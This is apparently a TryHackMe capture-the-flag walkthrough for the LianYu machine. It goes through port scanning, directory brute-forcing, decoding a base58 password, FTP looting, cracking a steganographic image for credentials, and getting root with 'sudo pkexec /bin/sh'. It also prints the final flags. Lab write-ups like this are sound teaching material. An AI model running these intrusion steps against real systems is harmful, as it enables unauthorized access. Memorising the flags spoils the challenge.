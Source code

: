 # LianYu
---

## Recon
**Port Scan**
```sh
└─$ sudo nmap -sS -sV -O  10.10.173.121 -vv                        

21/tcp  open  ftp     syn-ack ttl 60 vsftpd 3.0.2
22/tcp  open  ssh     syn-ack ttl 60 OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
80/tcp  open  http    syn-ack ttl 60 Apache httpd
111/tcp open  rpcbind syn-ack ttl 60 2-4 (RPC #100000)

```
- After enumerating a little bit about RPC I didn't found any vulnerability for that particular version

- In the webpage we found this!
![alt text](image.png)
- But I didn't find any important info in the comment on its source-code

**Directory Enumeration**
```sh
└─$ gobuster dir -u http://10.10.173.121/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o directory.txt 

/island
```
![alt text](image-1.png)
- We found an important code word - `vigilante`
- I searched about this word but found noting interesting

```sh
└─$ gobuster dir -u http://10.10.173.121/island/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o directory.txt

/2100
```
- `http://10.10.173.121/island/2100/` here we found a video but its been deleted

![alt text](image-2.png)

- There is a hint here `you can avail your .ticket here but how?`. Its telling us to avail something which has `.ticket` extension.
    - **It seems we need to scan for web content in this directory**
    - **Lets use `Seclists`**
    - **At first run this command `sudo apt -y install seclists`**
```sh
└─$ seclists

> seclists ~ Collection of multiple types of security lists

/usr/share/seclists
├── Discovery
├── Fuzzing
├── IOCs
├── Miscellaneous
├── Passwords
├── Pattern-Matching
├── Payloads
├── Usernames
└── Web-Shells

└─$ sudo gobuster dir -u http://10.10.173.121/island/2100/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 40 -x ticket -o directory.txt
/green_arrow.ticket


``` 
![alt text](image-3.png)
- I think it could be a password for ftp or ssh
- Remember we found a code word 
- After using `vigilante` as username and `RTy8yhBQdscX` as password we found nothing at both ssh and ftp
- I think `RTy8yhBQdscX` this could be encoded with any hash format as it is a password
- As I searched online I found that `RTy8yhBQdscX` is a base58 hash Lets crack it!


![alt text](image-4.png)
- Password - `!#th3h00d`

- Lets Try with FTP first
```sh
└─$ ftp 10.10.173.121
Connected to 10.10.173.121.
220 (vsFTPd 3.0.2)
Name (10.10.173.121:******): vigilante
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||24269|).
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 May 05  2020 .
drwxr-xr-x    4 0        0            4096 May 01  2020 ..
-rw-------    1 1001     1001           44 May 01  2020 .bash_history
-rw-r--r--    1 1001     1001          220 May 01  2020 .bash_logout
-rw-r--r--    1 1001     1001         3515 May 01  2020 .bashrc
-rw-r--r--    1 0        0            2483 May 01  2020 .other_user
-rw-r--r--    1 1001     1001          675 May 01  2020 .profile
-rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05  2020 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg
226 Directory send OK.

ftp> mget *
mget Leave_me_alone.png [anpqy?]? y
229 Entering Extended Passive Mode (|||51175|).
150 Opening BINARY mode data connection for Leave_me_alone.png (511720 bytes).
100% |***************************************************************************************************************************|   499 KiB  118.49 KiB/s    00:00 ETA
226 Transfer complete.
511720 bytes received in 00:04 (113.90 KiB/s)
mget Queen's_Gambit.png [anpqy?]? y
229 Entering Extended Passive Mode (|||56609|).
150 Opening BINARY mode data connection for Queen's_Gambit.png (549924 bytes).
100% |***************************************************************************************************************************|   537 KiB  169.36 KiB/s    00:00 ETA
226 Transfer complete.
549924 bytes received in 00:03 (161.00 KiB/s)
mget aa.jpg [anpqy?]? y
229 Entering Extended Passive Mode (|||55026|).
150 Opening BINARY mode data connection for aa.jpg (191026 bytes).
100% |***************************************************************************************************************************|   186 KiB  182.20 KiB/s    00:00 ETA
226 Transfer complete.
191026 bytes received in 00:01 (156.34 KiB/s)

ftp> mget .other_user
mget .other_user [anpqy?]? y
229 Entering Extended Passive Mode (|||7407|).
150 Opening BINARY mode data connection for .other_user (2483 bytes).
100% |***************************************************************************************************************************|  2483        5.11 MiB/s    00:00 ETA
226 Transfer complete.
2483 bytes received in 00:00 (14.08 KiB/s)
```

```sh
┌──(******㉿kali)-[~/CTF{}/THM/lianyu]
└─$ ls
 Leave_me_alone.png  "Queen's_Gambit.png"   aa.jpg   directory.txt
                                                                                                                                                                        
┌──(******㉿kali)-[~/CTF{}/THM/lianyu]
└─$ ls                            
 Leave_me_alone.png  "Queen's_Gambit.png"   aa.jpg   directory.txt
                                                                                                                                                                        
┌──(******㉿kali)-[~/CTF{}/THM/lianyu]
└─$ stegseek -sf aa.jpg /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "password"
[i] Original filename: "ss.zip".
[i] Extracting to "aa.jpg.out".

                                                                                                                                                                        
┌──(******㉿kali)-[~/CTF{}/THM/lianyu]
└─$ ls
 Leave_me_alone.png  "Queen's_Gambit.png"   aa.jpg   aa.jpg.out   directory.txt
                                                                                                                                                                        
┌──(******㉿kali)-[~/CTF{}/THM/lianyu]
└─$ file aa.jpg.out  
aa.jpg.out: Zip archive data, at least v2.0 to extract, compression method=deflate
                                                                                                                                                                        
┌──(******㉿kali)-[~/CTF{}/THM/lianyu]
└─$ unzip aa.jpg.out
Archive:  aa.jpg.out
  inflating: passwd.txt              
  inflating: shado                   
                                                                                                                                                                        
┌──(******㉿kali)-[~/CTF{}/THM/lianyu]
└─$ ls     
 Leave_me_alone.png  "Queen's_Gambit.png"   aa.jpg   aa.jpg.out   directory.txt   passwd.txt   shado
                                                                                                                                                                        
┌──(******㉿kali)-[~/CTF{}/THM/lianyu]
└─$ cat shado     
M3tahuman
```
- It could be a Password
```sh
└─$ cat .other_user 
Slade Wilson was 16 years old 
```
- `slade` could be uesr name for ssh

## Privilege Escalation
```sh
slade@LianYu:~$ ls 
user.txt
slade@LianYu:~$ cat user.txt 
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
                        --Felicity Smoak

slade@LianYu:~$ sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
slade@LianYu:~$ 
slade@LianYu:~$ 
slade@LianYu:~$ 
slade@LianYu:~$     sudo pkexec /bin/sh
# ls
ls: not found
# ls
root.txt
# cat root.txt  
                          Mission accomplished



You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 



THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
                                                                              --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825

```

### user.txt : `THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}`
### root.txt :`THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}`